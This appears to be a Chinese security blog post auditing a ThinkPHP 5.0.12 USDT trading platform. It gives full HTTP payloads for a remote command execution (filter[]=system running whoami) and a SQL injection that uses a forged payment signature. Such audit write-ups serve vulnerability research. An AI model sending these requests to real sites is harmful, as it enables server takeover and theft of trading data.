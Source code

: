 #  代码审计某USDT寄售买卖平台系统  
原创 moonsec  moonsec   2025-06-12 02:30  
  
```
免责声明：本公众号所提供的文字和信息仅供学习和研究使用，不得用于任何非法用途。
我们强烈谴责任何非法活动，并严格遵守法律法规。
读者应该自觉遵守法律法规，不得利用本公众号所提供的信息从事任何违法活动。
本公众号不对读者的任何违法行为承担任何责任。
```  
# 1.源码介绍   
  
本程序为Thinkphp5开发，主要解决USDT的供求买卖关系，会员可以在平台挂卖或者购买USDT（通过发布订单的方式），就是一个纯场外虚_拟币的交易平台，只是一个买卖双方的售卖平台。  
# 2.系统搭建  
  
PHP5.6+    MySQL5.5  
  
导入数据库 db_cash.sql  
  
修改数据库链接application/database.php  
  
网站运行目录为：wkb  
  
伪静态规则：thinkphp  
  
后台：/admin.php/login/index?type=admin  
  
设置程序运行目录  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHYbKVpvszuAF9tCdERPWYuhZ7oEczLxzSa7Dn3ZvlePrpRwuB2CibowicvcD6Ev6ibbXoS6dhk6RyA/640?wx_fmt=jpeg&from=appmsg "")  
  
设置伪静态规则  
```
 <IfModule mod_rewrite.c> RewriteEngine on RewriteBase / RewriteCond %{REQUEST_FILENAME} !-d RewriteCond %{REQUEST_FILENAME} !-f RewriteRule ^(.*)$ index.php?s=/$1 [QSA,PT,L]</IfModule>
```  
  
访问网站首页运行正常  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHYbKVpvszuAF9tCdERPWYQnfdjTvKoJbjFgIvhU5LykicNmGpL5libcMNQPiaAibvicFRohibWZxotnAQ/640?wx_fmt=jpeg&from=appmsg "")  
  
访问网站  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHYbKVpvszuAF9tCdERPWYib7OcG1QaPpoKJpvJ70vM8KAMdh4D9uuurqXBdBXXvvJavXxomfu9BQ/640?wx_fmt=jpeg&from=appmsg "")  
# 3.RCE漏洞  
  
查看目录结构   
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHYbKVpvszuAF9tCdERPWYvgDh0tmFPUJwKYHs2TxQB8VibL82cDroELg19g3EABn0mZYwdHiaOibHw/640?wx_fmt=jpeg&from=appmsg "")  
  
查看thinkphp版本 thinkphp/base.php  
```
define('THINK_VERSION', '5.0.12');define('THINK_START_TIME', microtime(true));define('THINK_START_MEM', memory_get_usage());define('EXT', '.php');define('DS', DIRECTORY_SEPARATOR);
```  
  
知道thinkphp版本之后 找对应版本的漏洞    
https://l1ubai.github.io/vuldb/Web%E5%AE%89%E5%85%A8/Thinkphp/Thinkphp%205.x%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/Thinkphp%205.0.12/  
```
posts=whoami&_method=__construct&method=POST&filter[]=systemaaaa=whoami&_method=__construct&method=GET&filter[]=system_method=__construct&method=GET&filter[]=system&get[]=whoamic=system&f=calc&_method=filter
```  
  
payload  
```
POST /index.do?s=index/index HTTP/1.1Host: www.d9.comReferer: http://www.d9.com/member/market/index.doAccept-Language: zh-CN,zh;q=0.9Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateCookie: PHPSESSID=pqsg6lrqu1tnj2hohni11b0merContent-Type: application/x-www-form-urlencodeds=whoami&_method=__construct&method=POST&filter[]=system
```  
  
  
用yakit发包成功返回执行的命令  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHYbKVpvszuAF9tCdERPWYAA9vv6kJHic7grhZM4nQJia9b7Uw2tiaC68vzfa7QPVpgNWRQEYLujGTQ/640?wx_fmt=jpeg&from=appmsg "")  
  
# 4.SQL注入漏洞  
  
漏洞位置 application/member/controller/Notify.php  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHYbKVpvszuAF9tCdERPWYibicWwHRw52icdV4KQSVn6tfaic26CFUlLic9fAiaTKoVfgYZYlJwUiamKicpw/640?wx_fmt=jpeg&from=appmsg "")  
  
在thinkphp5中 直接传递变量到->where函数中会造成SQL注入漏洞  
```
$map['orderid'] = $post['out_trade_no'];$map['status'] = 0;$rs = Db::name("pay")->where($map)->find();
```  
  
在这里利用还要解决签名问题 verifyAll函数 传入的post变量生成sign进行对比  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHYbKVpvszuAF9tCdERPWYibmHkOb4gZtxFiasAEqKdmEcIk3Y3F18pE3jtWxQQLaibZ9RoeQQyAvNg/640?wx_fmt=jpeg&from=appmsg "")  
  
跟进getSignVeryfy函数  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHYbKVpvszuAF9tCdERPWYjhTFkev14kv7PJ4JvRdMQh8TA1RH9iaicOEibrV7XouCG9YxxiaMicKuRng/640?wx_fmt=jpeg&from=appmsg "")  
  
把数组所有元素，按照“参数=参数值”的模式用“&”字符拼接成字符串  $this->codepay_config['key']是一个固定的值 跟进md5Verify函数 这里就是传入的post的md5是否与签名生成的sign一致 一致就通过。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHYbKVpvszuAF9tCdERPWYt66ObFMj8pLSjtDV7w42VMMT9eXG9ZpRxxxsBI1TLcXHyy0pOn0ia0w/640?wx_fmt=jpeg&from=appmsg "")  
  
在这里输入payload 打印一下sign的值  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHYbKVpvszuAF9tCdERPWYRu92CiaP6LvpGKickruz7IAeBWnGKBeRtRwqcGHGuFGDyGXyamKYLyGw/640?wx_fmt=jpeg&from=appmsg "")  
  
yakit提交获取  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHYbKVpvszuAF9tCdERPWYRctl8ZITwyR8q4a1rEsVkvmKH3aDOJ7y4XXBa4uUlS9QC4yEeEXqhw/640?wx_fmt=jpeg&from=appmsg "")  
  
接着拿这个sign值加到post里面即可。  
  
payload  
```
POST /member/Notify/index.do HTTP/1.1Host: www.d9.comReferer: http://www.d9.com/member/market/index.doAccept-Language: zh-CN,zh;q=0.9Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateCookie: PHPSESSID=pqsg6lrqu1tnj2hohni11b0merContent-Type: application/x-www-form-urlencodedout_trade_no[]=exp&out_trade_no[]=) union select updatexml(1,concat(0x7,user(),0x7e),1)--+user&sign=4896cc9517ec96817342e275851f6c77
```  
  
yakit提交截图  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHYbKVpvszuAF9tCdERPWYt0ExQ6I31FMHOhjKkyeoChXldXUDicFaW3UkTAt72gx3QhvqYST9llQ/640?wx_fmt=jpeg&from=appmsg "")  
  
5.培训学习  
  
  
🚀 如果你想系统掌握网络安全实战技能，从入门到进阶完成一次能力跃迁，我们提供了高质量的培训课程，内容涵盖 Web 安全、内网渗透、红队对抗、代码审计等方向。  
  
📚 课程由实战经验丰富的讲师教学，适合零基础或有一定基础的学员。  
  
📩 有兴趣了解课程详情，扫一扫 添加月师傅微信  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHYbKVpvszuAF9tCdERPWY24S9lwibxc4ibHlegNXCr6e0y7nUPicnb8S3OPFicsCAaPIEeaueFsxPEg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
  
  
  
  
  
  
  
